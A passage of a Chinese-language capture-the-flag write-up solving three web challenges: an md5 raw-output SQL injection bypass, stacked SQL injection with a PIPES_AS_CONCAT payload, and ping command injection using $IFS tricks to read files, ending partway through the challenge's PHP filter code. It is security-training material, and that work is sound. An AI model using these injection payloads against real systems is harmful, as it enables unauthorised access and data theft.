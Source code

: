 ## [BJDCTF 2020]easy_md5
- 题目提示
```TEXT
hint: select * from 'admin' where password=md5($pass,true)
```
>这里面 password 就是我们用户框中输入得东西，如果通过md5之后返回字符串是 `'or 1` 的话，就形成一个永真条件。    

而所谓的万能密码 `ffifdyop` 就是经过 md5 加密后的值为 `276f722736c95d99e921722cf9ed621c`，而该字符串 hex 转 ascii 后的 `276f722736`，刚好是 `'or'6` ，所以拼接之后的形式是 `select * from 'admin' where password=''or'6xxxxx'` 刚好就等价一个永真式，所以就能绕过 md5 函数了。

- 之后就是简单的数组绕过即可。

## [suctf 2019]EasySQL
- 首先，尝试各种注入后发现无果，最后尝试堆叠注入就成功了。
```SQL
1;show databases#
```
- 然后继续查表。
```SQL
1;show tables#
```
- 但是接下来的 `1;select columns from 'Flag'#` 却不行了。    
```TEXT
1、输入非零数字得到的回显1和输入其余字符得不到回显=>来判断出内部的查询语句可能存在有||
2、也就是select 输入的数据 || 内置的一个列名 from 表名=>即为 select  $_POST['query'] || flag from Flag
```
>看了 WP 后才知道要猜它原来后端的查询语句的结构是什么样的。    

Payload：    
1、可以直接 `*,1`，语句拼接后为 `select *,1 || flag from Flag`。    
2、官方给的 payload 是 `1;set sql_mode=PIPES_AS_CONCAT;select 1`。    
- 关于 `sql_mode` : 它定义了 MySQL 应支持的 SQL 语法，以及应该在数据上执行何种确认检查，其中的 `PIPES_AS_CONCAT` 将 `||` 视为字符串的连接操作符而非 “或” 运算符。

## [GXYCTF 2019]Ping Ping Ping
- 根据题目意思，输入地址执行了 `ping` 命令，所以我们考虑这里能通过拼接执行其他命令。    
- 尝试 `;ls`，发现存在 `flag.php` 文件，尝试直接读取，发现存在空格过滤。    
- 之后尝试以下命令。
```bash
;cat<>flag.php      // 过滤了<>
;cat${IFS}$flag.php // 过滤了{}
;cat$IFS$1flag.php  // 过滤了flag
```
- 那么我们执行 `;cat$IFS$1index.php` 来查看源代码，以获取过滤规则，来思考如何绕过。
```php
<?php
if(isset($_GET['ip'])){
	$ip = $_GET['ip'];
	if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
		print_r($match);
		print($ip);
		echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
		die("fxck your symbol!");
	}
	else if(preg_match("/ /", $ip)){
		die("fxck your space!");
	}
	else if(preg_match("/bash/", $ip)){
		die("fxck your bash!");
	}
	else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
		die("fxck your flag!");
	}
```